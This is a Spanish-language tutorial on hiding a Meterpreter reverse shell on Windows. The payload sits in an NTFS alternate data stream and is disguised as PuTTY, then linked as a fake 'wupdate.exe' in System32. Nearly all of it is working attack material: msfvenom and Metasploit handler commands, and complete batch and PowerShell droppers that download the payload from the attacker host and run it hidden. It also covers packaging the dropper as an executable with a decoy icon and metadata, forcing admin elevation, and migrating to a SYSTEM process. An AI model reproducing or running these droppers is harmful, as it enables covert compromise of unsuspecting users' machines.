

# RevrseShell Oculta en windows

## <mark style="color:purple;">Forma manual para entender como funciona por dentro</mark>

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.

```shell
run
```

En otra terminal, abrimos un servidor de python para pasarnos la aplicacion legitima con codigo maligno.

```shell
python3 -m http.server 80
```

Dentro de la maquina victima windows, haremos lo siguiente (Aqui estamos simulando que un usuario se descarga una palicacion o apk maliciosa sin que el mismo lo sepa desde internet).

```shell
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
```

Moveremos el archivo legitimo a la carpeta `Temp/` (Esto para que sea mas limpio todo, pero se podra dejar en el mismo escritorio si lo desea).

```shell
move payload.exe C:\Temp\
```

(Si no tenemos la carpeta la creamos.)

```shell
mkdir C:\Temp\
```

```shell
cd C:\Temp\
```

Una vez dentro de la carpeta con el archivo (Esto se puede configurar para que cuando habra el archivo se cree todo esto con un script en el archivo oculto, asi seria mas realista).

```shell
type payload.exe > windowslog.txt:PuTTY.exe
```

Ahora lo que haria un atacante sera meter informacion legitima y real dentro del archivo de `windowslog.txt` para no levantar sospechas.

```shell
notepad windowslog.txt
```

Y dentro se meteran los logs o informacion para que no sea cantoso.

Ahora podremos eliminar el archivo `payload.exe`.

```shell
del payload.exe
```

Ahora para que funcione el ejecutable craeremos un enlace simbolico a el en el sistema de la siguiente forma.

```shell
cd Windows\System32
```

Crearemos un link llamado `wupdate.exe` para que parezca que es un registro de las actualizaciones de windows.

```shell
mklink wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
```

Y si desde la terminal ejecutamos como atacantes el archivo `wupdate.exe` veremos que se ejecuta el `PuTTY.exe` que seria el archivo malicioso que le hayamos metido nosotros.

```shell
wupdate
```

o

```shell
start C:\<PATH>\wupdate.exe
```

Y con esto ya estaria ejecutado de manera oculta el `.exe`, por lo que si nos vamos a donde teniamos la escucha de metasploit, veremos que tenemos una shell.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.138:49185) at 2024-07-28 14:56:45 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```

Por lo que ya tendriamos acceso al sistema de windows mediante una terminal ocultandolo en una aplicacion legitima.

## <mark style="color:purple;">2ª Forma mas profesional de hacer lo anterior</mark>

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.

```shell
run
```

Ahora vamos abrir un servidor de `python3` simulando que es una pagina web o lo que querais suplantar por algo legitimo para que el usuario pique y se descargue nuestro archivo malicioso.

```shell
python3 -m http.server 80
```

Donde tengamos el servidor abierto plantamos el archivo que el usuario se va a descragar, en mi caso cree un script en `.bat` que te automatiza todo lo anetrior.

> script.bat

```shell
@echo off

:: Descargar el archivo
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear directorio Temp si no existe
if not exist C:\Temp\ (
    mkdir C:\Temp\
    if %ERRORLEVEL% NEQ 0 (
        exit /b %ERRORLEVEL%
    )
)

:: Mover el archivo descargado
move payload.exe C:\Temp\
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear el archivo NTFS alternativo
type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Borrar el archivo original
del C:\Temp\payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear un enlace simbólico
mklink C:\Windows\System32\wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Verificar existencia del enlace simbólico
if not exist C:\Windows\System32\wupdate.exe (
    exit /b 1
)

:: Ejecutar el enlace simbólico
start C:\Windows\System32\wupdate.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Cerrar CMD automáticamente
exit
```

Donde pone `<IP>` le pondremos nuestra IP donde tengamos el servidor de python abierto y por todo lo demas se queda como esta, este ejecutable se tendra que ejecutar como `administrador` eso es importante saberlo.

Una vez ejecutado ese `.bat`, si nos vamos a la escucha donde tenemos en metasploit.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 3 opened (192.168.5.199:7777 -> 192.168.5.138:49167) at 2024-07-28 17:44:41 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```

Veremos que somos el usuario normal, esto en tal caso de que no estuviera en ninguna cuenta como `administrador`, por lo que para ser administradores totalmente, haremos lo siguiente.

migraremos a un proceso que se este ejecutando como `NT AUTHORITY\SYSTEM`, para que no de ningun error elegire el siguiente proceso.

```shell
ps
```

Info:

```
Process List
============

 PID   PPID  Name                      Arch  Session  User                          Path
 ---   ----  ----                      ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                    x64   0
 256   4     smss.exe                  x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 324   316   csrss.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 372   316   wininit.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 380   364   csrss.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 420   364   winlogon.exe              x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 464   372   services.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 472   372   lsass.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 480   372   lsm.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 524   464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 584   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 648   464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 740   1400  SearchProtocolHost.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchProtocolHost.exe
 784   464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\System32\svchost.exe
 836   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 876   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 936   784   audiodg.exe               x64   0
 988   464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1036  464   spoolsv.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1072  464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1192  464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1400  464   SearchIndexer.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe
 1564  464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 1696  1400  SearchFilterHost.exe      x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchFilterHost.exe
 1724  464   taskhost.exe              x64   1        vuln-smb\diseo                C:\Windows\system32\taskhost.exe
 1752  836   dwm.exe                   x64   1        vuln-smb\diseo                C:\Windows\system32\Dwm.exe
 1768  1740  explorer.exe              x64   1        vuln-smb\diseo                C:\Windows\Explorer.EXE
 2004  464   wmpnetwk.exe              x64   0        NT AUTHORITY\Servicio de red  C:\Program Files\Windows Media Player\wmpnetwk.exe
 2500  2528  windowslog.txt:PuTTY.exe  x64   1        vuln-smb\diseo                C:\Windows\System32\wupdate.exe
```

```
584   464   svchost.exe    x64   0   NT AUTHORITY\SYSTEM C:\Windows\system32\svchost.exe
```

Ese mismo de ahi.

```shell
migrate 584
```

Info:

```
[*] Migrating from 2500 to 584...
[*] Migration completed successfully.
```

Y si vemos que usuario somos.

```shell
getuid
```

Info:

```
Server username: NT AUTHORITY\SYSTEM
```

Veremos que somos el usuario administrador.

## <mark style="color:purple;">Pasarlo de .bat a .exe</mark>

Primero nos descargaremos la siguiente herramienta.

URL = https://mega.nz/file/XZJVQYyD#8RuAvD2chnl2sPiI3XqZblg74nMFkvPXx1fWVwSgM-I

Una vez hecho esto la descomprimimos y la ejecutamos, ahora pasaremos a la parte de configuracion.

Donde pone `Batch file:` elegiremos nuestro `.bat`, las demas opciones estan a gusto de cada uno.

(Donde pone `Add Vista administrador manifest` es para que cuando le des doble click al `.exe` te pida que lo ejecutes como administrador)

En la pestaña `Versioninformations` cragaremos un`.ico` en tal caso de que tengamos uno y si habilitamos la seccion de `Include Versioninformatios` podremos ser mas profesionales a la hora de los metadatos o la informacion que lleve ese ejecutable.

Una vez hecho todo eso le daremos a `Compilar` y ya estaria listo nuestro `.exe`.

## <mark style="color:purple;">Implementar ejecuccion en modo administrador</mark>

Si queremos que nuestro `.exe` se ejecute con el modo administrador (Que nos lo pida) haremos lo siguiente.

Nos descargaremos la siguiente herramienta en windows.

URL = https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/

Una vez instalada nos iremos a la siguiente ruta, esto dependera de la version que tengais cada uno, la mia por ejemplo sera la siguiente.

```shell
cd "C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\"
```

Y si aqui buscamos en el buscador de la carpeta `mt.exe` verificaremos que existe correctamente, ahora crearemos un `.manifest` que te pida que lo ejecutes como administrador.

> elevate.manifest

```shell
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
      <requestedPrivileges>
        <requestedExecutionLevel level="requireAdministrator" uiAccess="false"/>
      </requestedPrivileges>
    </security>
  </trustInfo>
</assembly>
```

Y esto lo guardamos en un `.manifest` en mi caso lo llame `elevate.manifest`, una vez hecho esto y teniendo el archivo `.exe` en la misma carpeta que el `.manifest` haremos lo siguiente.

Dentro de un cmd como administradores.

```shell
cd C:\<PATH_MANIFEST_AND_EXE>\
```

> Ejemplo:

Yo en mi caso lo tengo en mi escritorio en el usuario llamado `user`.

```shell
cd C:\Users\user\Desktop\
```

Aqui en este comando lo que hara sera implementar ya el que te pida que se ejecute como administrador, pero donde pone `<FILE>.exe` se cambiara por tu `.exe` y en la ruta `C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\mt.exe` se cambiara por tu version de `mt.exe` que tenga en ese momento, lo unico que cambiara lo mas seguro sea esta parte `\10.0.26100.0\` siempre coge la version mas alta.

```shell
"C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\mt.exe" -manifest "C:\Users\user\Desktop\elevate.manifest" -outputresource:"C:\Users\user\Desktop\<FILE>.exe;#1"
```

Info:

```
Microsoft (R) Manifest Tool                                                        Copyright (c) Microsoft Corporation.                                               All rights reserved.
```

Hecho esto, ya tendriamos nuestro archivo para que solicite ejecutarlo como administrador.

## <mark style="color:purple;">Compatibilidad con Windows 10 y 1</mark>1

Para los pasos mencionados anteriores el codigo que esta en `.bat` habra que pasarlo a `.ps1` (PowerShell) ya que a veces no funciona con el cmd solo.

Crearemos el archivo `PuTTY.ps1`.

> PuTTY.ps1

```shell
# Verificar si el script se está ejecutando como administrador
if (-not [bool](Test-Path "$env:windir\System32\WindowsPowerShell\v1.0\powershell.exe")) {
    Write-Output "Solicitando privilegios de administrador..."
    Start-Process powershell -ArgumentList "-File `"$PSCommandPath`"" -Verb RunAs
    exit
}

try {
    # Crear directorio Temp si no existe
    Write-Output "Creando directorio Temp..."
    if (-not (Test-Path "C:\Temp")) {
        New-Item -Path "C:\Temp" -ItemType Directory -ErrorAction Stop
    }

    # Descargar el archivo payload
    Write-Output "Descargando payload..."
    Invoke-WebRequest -Uri 'http://<IP>/PuTTY.exe' -OutFile 'C:\Temp\payload.exe' -ErrorAction Stop

    # Mover el archivo descargado
    Write-Output "Moviendo payload a Temp..."
    Move-Item -Path 'C:\Temp\payload.exe' -Destination 'C:\Temp\' -ErrorAction Stop

    # Crear el flujo alternativo NTFS
    Write-Output "Creando flujo alternativo NTFS..."
    cmd /c "type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe"

    # Borrar el archivo original
    Write-Output "Borrando el archivo original..."
    Remove-Item -Path 'C:\Temp\payload.exe' -ErrorAction Stop

    # Crear el enlace simbólico
    Write-Output "Creando enlace simbólico..."
    cmd /c mklink "C:\Windows\System32\wupdate.exe" "C:\Temp\windowslog.txt:PuTTY.exe"

    # Verificar existencia del enlace simbólico
    Write-Output "Verificando existencia del enlace simbólico..."
    if (Test-Path 'C:\Windows\System32\wupdate.exe') {
        Write-Output "Enlace simbólico creado con éxito."
    } else {
        Write-Output "Enlace simbólico no encontrado."
        exit 1
    }

    # Ejecutar el enlace simbólico
    Write-Output "Ejecutando enlace simbólico..."
    Start-Process -FilePath 'C:\Windows\System32\wupdate.exe' -NoNewWindow -Wait

    Write-Output "Script completado."
} catch {
    Write-Output "Error: $_"
} finally {
    Write-Output "Presione una tecla para salir."
    Read-Host
}
```

Donde pone `<IP>` tendremos que poner la de nuestra maquina atacante, y ya lo demas es dependiendo de como creeis vuestros archivos.

Despues lo que tendremos que hacer sera abrir `PowerShell` como administrador y descargarnos la siguiente herramienta para pasar de `.ps1` a `.exe`.

URL = https://www.advancedinstaller.com/convert-powershell-to-exe.html

Instalaremos el siguiente modulo.

```shell
Install-Module ps2exe
```

Una vez instalado, ejecutaremos el programa.

```shell
win-ps2exe
```

Esto nos abrira una interfaz grafica de usuario en la que lo configuraremos de la siguiente manera.

Donde pone `Source File:` pondremos el archivo `PuTTY.ps1` con su PATH correspondiente, en la parte de `Target File:` pondremos la misma ruta del `Source File` pero cambiando el nombre a `PuTTY.exe` y en la parte de `Icon File:` seleccionaremos el icono que querramos que nuestro `.exe` tenga de imagen (Esto ultimo es opcional).

Despues dejaremos las opciones como se muestra en la siguiente imagen:

<figure><figcaption></figcaption></figure>

Y le daremos a `Compile`, una vez hecho esto ya tendriamos nuestro `.exe` para crear una `Reverse Shell` como mencione en los anteriores pasos.
